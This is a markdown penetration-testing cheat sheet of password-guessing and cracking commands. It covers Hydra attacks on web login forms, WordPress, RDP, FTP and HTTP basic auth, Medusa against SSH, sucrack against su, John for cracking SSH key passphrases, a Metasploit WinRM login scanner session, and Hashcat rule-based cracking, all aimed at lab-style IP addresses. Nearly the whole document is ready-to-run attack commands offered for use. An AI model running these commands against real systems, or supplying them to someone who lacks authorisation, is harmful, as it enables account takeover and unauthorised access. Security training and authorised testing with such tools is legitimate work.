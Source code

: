 # Brute-Force

## Hydra

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.45.36 http-post-form "$Link$/login.aspx?ReturnURL=/admin:$COOKIE$:LOGIN FAIL MESSAGE" -vv

sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
```

| Command                                                                                                                                 | Description                                                                                                                                                        |
| --------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| hydra -P wordlist -v ip protocol                                                                                                        | Brute force against a protocol of your choice                                                                                                                      |
| hydra -v -V -u -L username_list -P password_list -t 1 -u ip protocol                                                                    | You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts) |
| hydra -t 1 -V -f -l username -P wordlist rdp://<ip>                                                                                     | Attack a Windows Remote Desktop with a password list.                                                                                                              |
| hydra -l username -P password list $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Craft a more specific request for Hydra to brute force.                                                                                                            |

```
"hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp"

Let's break it down:

SECTION             FUNCTION

hydra                   Runs the hydra tool
-t 4                    Number of parallel connections per target
-l [user]               Points to the user who's account you're trying to compromise
-P [path to dictionary] Points to the file containing the list of possible passwords
-vV                     Sets verbose mode to very verbose, shows the login+pass combination for each attempt
[machine IP]            The IP address of the target machine
ftp / protocol          Sets the protocol
```

### Basic HTTP auth

```
hydra -l USER -P /usr/share/wordlists/rockyou.txt -s PORT -f 10.10.93.125 http-get /PATH
```

## Brute force ssh with medusa

```
medusa -h IP -U users.txt -P passwords.txt -M ssh IP
```

## Brute force su with sucrack

```
sucrack -a -w 20 -s 10 -u user pass.txt
```

## Brute force ssh key with John

```
/usr/share/john/ssh2john.py id_rsa > for_john.txt

john for_john.txt --wordlist=rockyou.txt
```

## Brute force Windows login

```
msf5 auxiliary(scanner/winrm/winrm_login) > set PASSWORD '$fab@s3Rv1ce$1'
PASSWORD => $fab@s3Rv1ce$1
msf5 auxiliary(scanner/winrm/winrm_login) > set USER_FILE users
USER_FILE => users
msf5 auxiliary(scanner/winrm/winrm_login) > set RHOSTS 10.10.10.193
RHOSTS => 10.10.10.193
msf5 auxiliary(scanner/winrm/winrm_login) > run
```

## Hashcat

Running hashcat with a rule set

```
hashcat -m 3200 hash.txt dict.txt -r /usr/share/hashcat/rules/best64.rule --debug-mode=1 --debug-file=matched.rule --force
```

Create an upgraded wordlist using hashcat rules

```
hashcat -r /usr/share/hashcat/rules/best64.rule --stdout rule > wordlist.txt
```
